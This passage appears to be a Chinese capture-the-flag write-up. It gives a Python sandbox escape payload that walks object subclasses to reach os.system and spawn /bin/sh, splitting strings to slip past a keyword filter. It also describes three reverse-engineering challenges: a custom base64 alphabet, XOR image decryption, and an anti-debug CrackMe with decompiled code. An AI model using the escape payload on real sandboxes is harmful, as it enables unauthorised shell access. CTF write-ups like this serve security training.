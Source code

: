 ```
print ().__class__.__base__.__subclasses__()[-2].__init__.__getattribute__('func_global' + 's')
```
果然环境没有修改，里面有_os
剩下的内容就很简单了
直接执行
```
().__class__.__base__.__subclasses__()[-2].__init__.__getattribute__('func_global' + 's')['_o'+'s'].__getattribute__('s' + 'ystem')('/bin/sh')
```
即可getshell

## Reverse
### 2ex

mips的题，base64变表，修改了补位符为`@` ，表直接从程序文件里抄出来，将out内容解密回去就行了。

### RE

这题很容易，输入值以_分成三部分，前两个部分的md5值已知（第二部分的需要异或一下），可以直接网上找到原文，最后一个部分显然不可能爆破，发现解密出来的文件仅仅用到了前两部分，那么直接强制让他解密出来，猜测是张图片，经过多次测试发现应该是一张jpg文件，分奇偶异或的值直接可以拿到（从JFIF处就可以拿到了），解密图片后得到第三段flag。

### Tryme
win64下的CrackMe，拿到之后调试器载入，直接挂掉了，猜测有反调试，于是从头开始一步步调试，发现程序动态解密了一大段内存，然后直接跳转到了这一段内存中执行，通过动态跟踪这段内存，发现它写出来了一个dll文件，而且还把它给加载了，于是在调试过程中把dll文件提取出来，IDA载入分析。

dll放入ida中分析验证函数，直接F5看伪代码，这个地方卡了好久，一直没有发现是怎么回事：

```cpp
      scanf_s("%s", &v68, 1024i64);
      JUMPOUT(v1, (char *)&loc_18000162A + 2);
      JUMPOUT(!v1, (char *)&loc_18000162A + 2);
      JUMPOUT(!((unsigned __int8)(v20 ^ v2) | v1), (char *)&loc_18000166F + 3);
      JUMPOUT(*(_QWORD *)&word_180001626);
    }
    v30 = v15 == 0;
    if ( v15 )
    {
      v30 = v14 == 0i64;
      if ( v14 )
      {
        if ( v14 && !v14 )
        {
          JUMPOUT(0, (char *)&loc_18000156E + 6);
          JUMPOUT(*(_QWORD *)byte_180001528);
        }
        JUMPOUT(v14 == 0i64, (char *)&loc_180001542 + 1);
        JUMPOUT(v14 != 0i64, (char *)&loc_180001542 + 1);
        JUMPOUT((signed __int64)v14 > 0, byte_180001589);
        JUMPOUT(*(_QWORD *)byte_18000153D);
      }
    }
    if ( !v30 && v30 )
    {
      JUMPOUT(v30, (char *)&loc_180001A67 + 6);
      *v17 += (_DWORD)v16;
      JUMPOUT(*(_QWORD *)&dword_180001A2C);
    }
    result = puts(&Str);
```
